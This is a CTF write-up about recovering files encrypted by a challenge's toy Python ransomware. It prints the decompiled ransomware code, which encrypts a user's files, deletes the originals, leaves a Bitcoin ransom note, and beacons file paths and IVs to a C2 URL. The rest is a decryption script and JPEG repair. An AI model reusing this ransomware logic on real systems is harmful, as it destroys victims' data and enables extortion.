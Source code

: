 ```yaml
---
title: Santhacklaus 2019: Jacques ! Au secours !
slug: santa-jacques
date: 23/12/2019
---
```


**Before we start!** This post is authored by [@pwnh4](https://twitter.com/pwnh4).
I'm really proud to have him for this guest post as he started computer security
only a few months ago with my [2019 Piscine](/piscine-poc-2019)
but already performs very well in CTF. Go follow him!

***

*Jacques ! Au secours!* is a cryptography challenge of the Santhacklaus 2019
CTF.

![Intro](/assets/santa/jacques/chall.png)

Let's start by downloading and extracting the provided `.zip` file:

```
➜  chall_files tree
.
├── vacation pictures
│   ├── DCIM-0533.jpg.hacked
│   ├── DCIM-0534.jpg.hacked
│   ├── DCIM-0535.jpg.hacked
│   ├── DCIM-0536.jpg.hacked
│   └── READ_THIS.txt
└── virus.cpython-37.pyc
```

The `.pyc` file is some Python bytecode. It is not human readable so let's
use some [online Python decompiler](https://python-decompiler.com/) to retrive
the actual code source of what looks to be a Python ransomware.

## The Ransomware

```python
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
import hashlib, os, getpass, requests
TARGET_DIR = 'C:\\Users'
C2_URL = 'https://c2.virus.com/'
TARGETS = ['Scott Farquhar', 'Lei Jun', 'Reid Hoffman', 'Zhou Qunfei', 'Jeff Bezos', 'Shiv Nadar', 'Simon Xie', 'Ma Huateng', 'Ralph Dommermuth', 'Barry Lam', 'Nathan Blecharczyk', 'Judy Faulkner', 'William Ding', 'Scott Cook', 'Gordon Moore', 'Marc Benioff', 'Michael Dell', 'Yusaku Maezawa', 'Yuri Milner', 'Bobby Murphy', 'Larry Page', 'Henry Samueli', 'Jack Ma', 'Jen-Hsun Huang', 'Jay Y. Lee', 'Joseph Tsai', 'Dietmar Hopp', 'Henry Nicholas, III.', 'Dustin Moskovitz', 'Mike Cannon-Brookes', 'Robert Miller', 'Bill Gates', 'Garrett Camp', 'Lin Xiucheng', 'Gil Shwed', 'Sergey Brin', 'Rishi Shah', 'Denise Coates', 'Zhang Fan', 'Michael Moritz', 'Robin Li', 'Andreas von Bechtolsheim', 'Brian Acton', 'Sean Parker', 'John Doerr', 'David Cheriton', 'Brian Chesky', 'Wang Laisheng', 'Jan Koum', 'Jack Sheerack', 'Terry Gou', 'Adam Neumann', 'James Goodnight', 'Larry Ellison', 'Wang Laichun', 'Masayoshi Son', 'Min Kao', 'Hiroshi Mikitani', 'Lee Kun-Hee', 'David Sun', 'Mark Scheinberg', 'Yeung Kin-man', 'John Tu', 'Teddy Sagi', 'Frank Wang', 'Robert Pera', 'Eric Schmidt', 'Wang Xing', 'Evan Spiegel', 'Travis Kalanick', 'Steve Ballmer', 'Mark Zuckerberg', 'Jason Chang', 'Lam Wai Ying', 'Romesh T. Wadhwani', 'Liu Qiangdong', 'Jim Breyer', 'Zhang Zhidong', 'Pierre Omidyar', 'Elon Musk', 'David Filo', 'Joe Gebbia', 'Jiang Bin', 'Pan Zhengmin', 'Douglas Leone', 'Hasso Plattner', 'Paul Allen', 'Meg Whitman', 'Azim Premji', 'Fu Liquan', 'Jeff Rothschild', 'John Sall', 'Kim Jung-Ju', 'David Duffield', 'Gabe Newell', 'Scott Lin', 'Eduardo Saverin', 'Jeffrey Skoll', 'Thomas Siebel', 'Kwon Hyuk-Bin']

def get_username():
    return getpass.getuser().encode()

#
# ....
#

def lock_files():
    username = get_username()
    print(username)
    if username in TARGETS:
        for directory, _, filenames in os.walk(TARGET_DIR):
            for filename in filenames:
                if filename.endswith('.hacked'):
                    continue
                fullpath = os.path.join(directory, filename)
                print('Encrypting', fullpath)
                lock_file(fullpath)

        with open(os.path.join(TARGET_DIR, 'READ_THIS.txt'), 'wb') as (fo):
            fo.write('We have hacked all your files. Buy 1 BTC and contact us at hacked@virus.com\n')


if __name__ == '__main__':
    lock_files()

```

The way the ransomware works is pretty simple. It has a list of usernames
defined in `TARGET`. If the victim is one of them, it encrypts his files and
asks for a ransom.

Let's focus on the encryption process:

```python
def xorbytes(a, b):
    assert len(a) == len(b)
    res = ''
    for c, d in zip(a, b):
        res += bytes([c ^ d])

    return res


def lock_file(path):
    # 1
    username = get_username()
    hsh = hashlib.new('md5')
    hsh.update(username)
    key = hsh.digest()
    cip = AES.new(key, 1)

    # 2
    iv = get_random_bytes(16)

    #3
    params = (('target', username), ('path', path), ('iv', iv))
    requests.get(C2_URL, params=params)

    #4
    with open(path, 'rb') as (fi):
        with open(path + '.hacked', 'wb') as (fo):
            block = fi.read(16)
            while 1:
                if block:
                    while 1:
                        if len(block) < 16:
                            block += bytes([0])
                    cipherblock = cip.encrypt(xorbytes(block, iv))
                    iv = cipherblock
                    fo.write(cipherblock)
                    block = fi.read(16)

    os.unlink(path)
```

We can observe multiple interesting things:

1. The key used for encryption is the MD5 hash value of the victim username.
We can also see the declaration of an AES cipher in EBC mode ( `AES.new(key, 1)`)
2. We can see that a variable `IV` is defined. An Initialization vector is used
in AES CBC mode which means that this function is implementing its own AES CBC
encryption. The IV is set to a random 16 bytes value.
3. There is a request to what should be a C&C (useless for our case)
4. The encryption algorithm: for each 16 bytes block of the file to encrypt,
we xor it with the IV and we encrypt the result with the AES ECB cipher defined
in step 1. Then, the result is written in the `.hack` file and the IV is set to
this current encrypted block.

This algorithm is beautifully represented in this Wikipedia schema:

![Wikipedia CBC](/assets/santa/jacques/cbc.png)

## The problem

We can uncipher every block in the `.hack` file except the first one, as it
is the IV that was initialized to a random 16 bytes value.

But luckily we can bypass this! We know that we want to retrieve a JPG files. Thus, we could try to guess the first plaintext block based on the standard header of the JPG format. Let's try with:

```
\xff\xd8\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00
```
An other problem is that we should try all targeted usernames as key. But
let's make some guess and consider that the key is `Jack Sheerack` (because
of the challenge name). We will check the unciphered files generated with
this key first.

Ok, so now that we have solutions for our issues, let's decode the hacked files!

## The script

```python
for target in TARGETS:
    key = hashlib.md5(target.encode()).digest()
    f = sys.argv[1]

    # used to store all 16 bytes block
    blocks = []
    with open(f, "rb") as f:
        while not len(blocks) or len(blocks[-1]):
            blocks.append(f.read(16))
    del blocks[-1]

    cip = AES.new(key, 1)
    with open("/tmp/out-"+target+".jpg", "wb") as fo:
        # write 16 bytes of jpg header
        fo.write(b"\xff\xd8\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00")
        # decode each ith block using the i-1th block as initialization vector
        for i in range(1, len(blocks)):
            fo.write(xorbytes(cip.decrypt(blocks[i]), blocks[i-1]))
```

We try to open the file associated with the `Jack Sheerack` key but it is
invalid. Just like all the other files...

At this time I was quite lost and tried to figure out why my generated JPG
files were invalid.

## Black Magic

After some research, I found the ImageMagick tool, which is great to
help me debug my generated files.

With the `identify` command, you can detect all the corruption sources.

```
➜  identify -regard-warnings -verbose /tmp/out-Jack\ Sheerack.jpg

...
Artifacts:
  filename: /tmp/out-Jack Sheerack.jpg
  verbose: true
Tainted: False
Filesize: 174736B
Number pixels: 990000
Pixels per second: 62.6515MB
User time: 0.010u
Elapsed time: 0:01.015
Version: ImageMagick 6.9.10-67 Q16 x86_64 2019-10-04 https://imagemagick.org
identify: Corrupt JPEG data: 18 extraneous bytes before marker 0xfe `/tmp/out-Jack Sheerack.jpg' @ warning/jpeg.c/JPEGWarningHandler/389.
```

Thats a good thing! Our JPG is corrupted. How is that a good thing? Well now
we know that it is almost valid ! If I try the same thing on a generated file
with the key `Jack Ma`, `identify` simply doesn't work:

```
identify: Unsupported JPEG process: SOF type 0xc3 `/tmp/out-Jack Ma.jpg' @ error/jpeg.c/JPEGErrorHandler/338.
```

At this time I discovered another tool part of the ImageMagick suite:
`mogrify`, which helps correct the corrupted bytes in my generated JPG. I
simply have to indicate the error I want it to correct:

```
➜  mogrify -set comment 'Extraneous bytes removed' /tmp/out-Jack\ Sheerack.jpg

mogrify: Corrupt JPEG data: 18 extraneous bytes before marker 0xfe `/tmp/out-Jack Sheerack.jpg' @ warning/jpeg.c/JPEGWarningHandler/389.
```

I can now open my file and see a wonderful photo of Jacques Chirac!

![Flag](/assets/santa/jacques/flag.jpg)

The picture with the flag was `DCIM-0534.jpg.hacked`.
